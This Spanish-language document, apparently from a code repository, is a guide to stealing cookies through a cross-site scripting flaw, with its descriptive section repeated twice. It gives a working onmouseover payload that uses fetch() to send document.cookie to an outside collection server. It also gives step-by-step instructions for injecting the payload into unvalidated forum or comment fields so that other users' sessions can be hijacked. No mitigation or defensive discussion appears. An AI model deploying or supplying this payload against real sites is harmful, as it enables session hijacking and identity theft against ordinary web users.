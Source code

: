 ### Documentación para inyección de código JavaScript usando `onmouseover`

#### Descripción:

Este documento describe cómo realizar una inyección de código JavaScript mediante el evento `onmouseover` en una página web vulnerable. El objetivo es interceptar y enviar cookies del usuario a un servidor externo cuando el usuario pase el ratón sobre un elemento HTML.

#### Objetivo:

El objetivo de esta técnica es aprovechar una vulnerabilidad de **Cross-Site Scripting (XSS)** para robar cookies o información sensible del usuario. Esta información puede ser enviada a un servidor controlado por el atacante para su posterior uso, como la suplantación de identidad o el secuestro de sesiones.

```javascript
<div onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + encodeURIComponent(document.cookie))">
    Pasa el ratón por aquí
</div>

```
### Documentación para inyección de código JavaScript usando `onmouseover`

#### Descripción:

Este documento describe cómo realizar una inyección de código JavaScript mediante el evento `onmouseover` en una página web vulnerable. El objetivo es interceptar y enviar cookies del usuario a un servidor externo cuando el usuario pase el ratón sobre un elemento HTML.

#### Objetivo:

El objetivo de esta técnica es aprovechar una vulnerabilidad de **Cross-Site Scripting (XSS)** para robar cookies o información sensible del usuario. Esta información puede ser enviada a un servidor controlado por el atacante para su posterior uso, como la suplantación de identidad o el secuestro de sesiones.

#### Código para la inyección:

html

Copiar código

`<div onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + encodeURIComponent(document.cookie))">     Pasa el ratón por aquí </div>`

#### Desglose del código:

1. **Elemento interactivo (`<div>`)**: El código inyecta un `<div>` en la página web que ejecutará JavaScript cuando el usuario pase el ratón por encima.
    
2. **Evento `onmouseover`**: El atributo `onmouseover` se activa cuando el usuario pasa el ratón sobre el área del elemento `<div>`. Este evento puede ejecutarse en diferentes elementos como `<img>`, `<a>`, `<button>`, entre otros.
    
3. **`fetch()`**: Se realiza una solicitud HTTP utilizando la función `fetch()`. Esta función envía una petición GET al servidor externo con las cookies del documento (obtenidas a través de `document.cookie`).
    
4. **`encodeURIComponent(document.cookie)`**: La función `encodeURIComponent()` se usa para codificar las cookies del usuario de manera segura para ser enviadas a través de la URL. Esto evita problemas con caracteres especiales en las cookies que podrían romper la URL.
    
5. **URL maliciosa**: En este caso, la información sensible (las cookies) se envía a `https://datagrabber.onrender.com/grab`, un servidor controlado por el atacante. El servidor podría registrar las cookies y utilizarlas para llevar a cabo ataques adicionales, como el secuestro de sesiones.
    

#### Ejecución:

1. El atacante encuentra una página web vulnerable que no valida o escapa adecuadamente el código introducido por el usuario (por ejemplo, comentarios o campos de texto).
    
2. El atacante inyecta el código anterior en un campo de entrada de usuario que se renderiza directamente como HTML en la página web.
    
3. Cuando un usuario pasa el ratón sobre el elemento inyectado (en este caso, el `<div>`), el navegador ejecuta el código `onmouseover`, lo que envía una solicitud HTTP con las cookies del usuario al servidor externo.
    

#### Ejemplo de escenario:

Un atacante puede aprovecharse de un foro o sección de comentarios donde los datos introducidos por los usuarios no se validan adecuadamente. Si el atacante inyecta el código descrito en el campo de comentarios, cualquier otro usuario que pase el ratón por encima del comentario verá que sus cookies se envían al servidor del atacante.